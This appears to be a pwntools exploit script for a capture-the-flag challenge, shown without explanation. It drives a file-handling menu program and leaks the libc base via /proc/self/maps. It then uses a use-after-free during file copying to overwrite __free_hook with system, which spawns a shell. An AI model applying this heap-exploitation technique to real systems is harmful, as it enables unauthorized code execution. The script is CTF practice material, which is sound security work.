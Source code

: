 ```
    p.sendlineafter("Index:", str(idx))
    p.sendlineafter("Buf Size:", str(size))

def read_file(idx):
    choose(choose_items['read'])
    p.sendlineafter("Index:", str(idx))

def write_file(idx, content):
    choose(choose_items['write'])
    p.sendlineafter("Index:", str(idx))
    p.sendafter("Input:", content)
    p.sendlineafter("Read More (Y/y for yes)", "n")

def close_file(idx):
    choose(choose_items['close'])
    p.sendlineafter("Index:", str(idx))

def copy_file(src, dst):
    choose(choose_items['copy'])
    p.sendlineafter("Enter filename1: ", src)
    p.sendlineafter("Enter filename2: ", dst)

# leak
copy_file("/proc/self/maps", "/dev/stdout")
for i in range(4):
    p.recvuntil("/lib/x86_64-linux-gnu/libm-2.27.so\n")
libc_base = int(p.recv(12), 16)
__free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']

# create two files
create_file("tmpfile1.txt".rjust(0x30, 'A'), 1, 0x38)
create_file("tmpfile2.txt", 2, 0x8)
write_file(1, p64(__free_hook))

# uaf
copy_file("tmpfile1.txt".rjust(0x30, 'A'), "tmpfile2.txt")
create_file("tmpfile3.txt", 3, 0x38)
create_file("tmpfile4.txt", 4, 0x38)
write_file(3, "/bin/sh\x00")
write_file(4, p64(system))

# trigger
close_file(3)

success("libc_base: " + hex(libc_base))

p.interactive()
```
